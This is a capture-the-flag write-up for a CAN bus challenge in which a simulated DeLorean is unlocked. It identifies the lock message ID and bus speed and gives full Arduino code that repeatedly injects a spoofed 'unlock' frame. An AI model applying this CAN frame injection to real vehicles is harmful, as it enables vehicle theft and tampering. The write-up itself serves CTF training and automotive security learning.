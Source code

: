 ## CAN Opener (150)

### Description

Our operatives have recovered a DeLorean in the ruins of an old mid-west US town. It appears to be locked, but we have successfully accessed its internal communications channels. According to the little data we have, the DeLorean internally uses an archaic technology called CAN bus. We need you to analyze the communications and find a way to unlock the vehicle; once unlocked, recover the secret flag stored inside. We have reason to believe that vehicle entry should be a fairly easy challenge, but to aid you in this, we have restored and reconnected the vehicle dashboard.

Best of luck.

The Dashboard app is available here.

Challenge developed by Argus Cyber Security.

### Write-up

The easiest of CAN challenges. To solve we used Arduino + Arduino CAN-BUS Shield.

Using logic analyzer we found out CAN speed was 50 kBps.

The board sends several types messages between its CAN
controllers. Messages with id 0x332 has text `lock\x00\x00\x00\x00` in payload.
To get flag you just need to send `unlock\x00\x00` with the same id. After 
receiving unlock message, the board prints flag in the dashboard app.

Arduino source code:
```c
// https://github.com/Seeed-Studio/CAN_BUS_Shield
#include <mcp_can.h>
#include <SPI.h>

const int SPI_CS_PIN = 10;

MCP_CAN CAN(SPI_CS_PIN); // Set CS pin

void setup()
{
    Serial.begin(115200);

    while (CAN_OK != CAN.begin(CAN_50KBPS, MCP_16MHz)) {
        Serial.println("CAN BUS Shield init fail");
        Serial.println(" Init CAN BUS Shield again");
        delay(100);
    }
    Serial.println("CAN BUS Shield init ok!");
}

unsigned char msg[8] = {0x75, 0x6E, 0x6C, 0x6F, 0x63, 0x6B, 0x00, 0x00};
void loop()
{
    CAN.sendMsgBuf(0x332, 0, 8, msg);
    delay(100);
}
```